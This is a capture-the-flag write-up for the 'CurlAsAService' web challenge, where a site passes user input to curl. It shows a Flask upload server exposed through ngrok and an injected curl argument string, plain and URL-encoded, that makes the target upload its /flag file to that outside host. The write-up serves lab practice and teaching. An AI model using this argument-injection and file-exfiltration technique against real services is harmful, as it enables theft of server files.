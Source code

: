 # CurlAsAService

### CHALLENGE DESCRIPTION

cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.



> I approached a black box testing on the challenge



## Website

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>curl</p></figcaption></figure>

* A simple curl request that will get the frontend src code
* There are many ways to solve this challenge
* I will make a flask app that handles put request and tell curl to put the file on my app



### Flask app

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods=['PUT'])
def upload_file():
    uploaded_file = request.files['file']

    if uploaded_file:
        file_path = f"./uploads/{uploaded_file.filename}"
        uploaded_file.save(file_path)

        return f"File '{uploaded_file.filename}' uploaded successfully.\n"
    else:
        return "No file received in the request.\n", 400

if __name__ == '__main__':
    app.run(debug=False)
```



* After this start ngrok on port 5000
* run the app.py file

### Payload

```bash
-X PUT -F "file=@/flag"  https://f9e2-122-177-22-17.ngrok-free.app/upload
```

* breakdown:
  * **-X PUT** : this will tell curl what http method to use
  * **-F "file=@/flag"** : This will tell curl what file to upload (-F is basically to mention we are using file)
* Turn on burspsuite and url encode the above payload

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

```bash
-X+PUT+-F+"file%3d%40/flag"++https%3a//f9e2-122-177-22-17.ngrok-free.app/upload
```

## pwned

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>
